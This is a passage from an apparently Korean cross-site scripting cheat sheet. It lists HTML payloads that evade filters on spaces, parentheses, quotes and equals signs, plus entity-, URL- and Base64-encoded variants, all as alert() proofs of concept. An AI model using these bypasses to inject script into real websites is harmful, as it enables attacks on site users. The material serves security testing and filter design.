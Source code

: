 ### 3.2. 특수문자 제한 우회

#### 3.2.1. 공백 차단 우회
```html
<svg/onload=alert('XSS')/>
<img/src=x/onerror=alert('XSS')/>
<script>alert('XSS')</script>
<img	src=x	onerror=alert('XSS')> <!-- 탭 문자 -->
<img%0asrc=x%0aonerror=alert('XSS')> <!-- 줄바꿈 -->
<img%0dsrc=x%0donerror=alert('XSS')> <!-- 캐리지 리턴 -->
```

#### 3.2.2. 괄호 () 차단 우회
```html
<img src=x onerror=alert`XSS`>
<img src=x onerror=eval`alert\x28'XSS'\x29`>
<svg onload=alert`XSS`>
```

#### 3.2.3. 따옴표 차단 우회
```html
<img src=x onerror=alert(String.fromCharCode(88,83,83))>
<img src=x onerror=alert(/XSS/.source)>
<img src=x onerror=alert(document.domain)>
```

#### 3.2.4. 등호(=) 차단 우회
```html
<svg onload%3dalert('XSS')> <!-- URL 인코딩 -->
<iframe src%3djavascript:alert('XSS')>
```

### 3.3. 인코딩 기반 우회

#### 3.3.1. HTML 엔티티 인코딩
```html
<a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">Click</a>
<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
```

#### 3.3.2. URL 인코딩
```html
<iframe src="javascript:%61%6c%65%72%74%28%27%58%53%53%27%29"></iframe>
<a href="javascript:%61%6c%65%72%74%28%27%58%53%53%27%29">Click</a>
```

#### 3.3.3. Base64 인코딩
```html
<meta http-equiv="refresh" content="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></iframe>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></object>
```
